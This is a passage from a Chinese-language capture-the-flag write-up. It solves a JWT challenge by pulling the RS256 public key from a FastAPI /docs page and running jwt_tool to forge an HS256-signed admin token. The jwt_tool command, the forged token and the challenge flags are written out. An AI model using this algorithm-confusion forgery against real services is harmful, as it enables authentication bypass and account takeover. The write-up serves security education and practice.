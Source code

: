 400题后

`flag{S0lid_M4th_Phy_Foundation_44938212dc}`



## 普通的身份认证器（赛后）

因为没有信息收集全面没有解出

显然是jwt题，网搜一些jwt可知RS256的漏洞，关键点在于获取公钥。

信息收集——FastApi，了解到 FastAPI 会给网站自动生成 API 文档，路径在 `/docs`

![BoQqjP.png](https://s1.ax1x.com/2020/11/08/BoQqjP.png)

于是访问可以看到公钥。

![BoQXB8.md.png](https://s1.ax1x.com/2020/11/08/BoQXB8.md.png)

存入文件myPublicKey

```
-----BEGIN RSA PUBLIC KEY-----
MIICCgKCAgEAn/KiHQ+/zwE7kY/Xf89PY6SowSb7CUk2b+lSVqC9u+R4BaE/5tNF
eNlneGNny6fQhCRA+Pdw1UJSnNpG26z/uOK8+H7fMb2Da5t/94wavw410sCKVbvf
ft8gKquUaeq//tp20BETeS5MWIXp5EXCE+lEdAHgmWWoMVMIOXwaKTMnCVGJ2SRr
+xH9147FZqOa/17PYIIHuUDlfeGi+Iu7T6a+QZ0tvmHL6j9Onk/EEONuUDfElonY
M688jhuAM/FSLfMzdyk23mJk3CKPah48nzVmb1YRyfBWiVFGYQqMCBnWgoGOanpd
46Fp1ff1zBn4sZTfPSOus/+00D5Lxh6bsbRa6A1vAApfmTcu026lIb7gbG7DU1/s
eDId9s1qA5BJpzWFKO4ztkPGvPTUok8hQBMDaSH1JOoFQgfJIfC7w2CQe+KbodQL
3akKQDCZhcoA4tf5VC6ODJpFxCn6blML5cD6veOBPJiIk8DBRgmt2AHzOUju+5ns
QcplOVxW5TFYxLqeJ8FPWqQcVekZ749FjchtAwPlUsoWIH0PTSun38ua8usrwTXb
pBlf4r0wz22FPqaecvp7z6Rj/xfDauDGDSU4hmn/TY9Fr+OmFJPW/9k2RAv7KEFv
FCLP/3U3r0FMwSe/FPHmt5fjAtsGlZLj+bZsgwFllYeD90VQU8Ds+KkCAwEAAQ==
-----END RSA PUBLIC KEY-----


```

使用jwt_tool生成可用的jwt即可（把guest改为admin）

```
python3 jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6MTYwNDgxNTYzN30.2Hf7ZjkfUgV8sm3cS55Qf6MRLpA7Z2a5IpAJzsN6708" -S hs256 -kf myPublicKey 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6MTYwNDgxNTYzN30.9Dw82TmoR4yzkD0DVxvma1n8zuvKnBEdiKpGIl5BnfE
```

`flag{just_A_simple_Json_Web_T0ken_exp1oit_470810}`

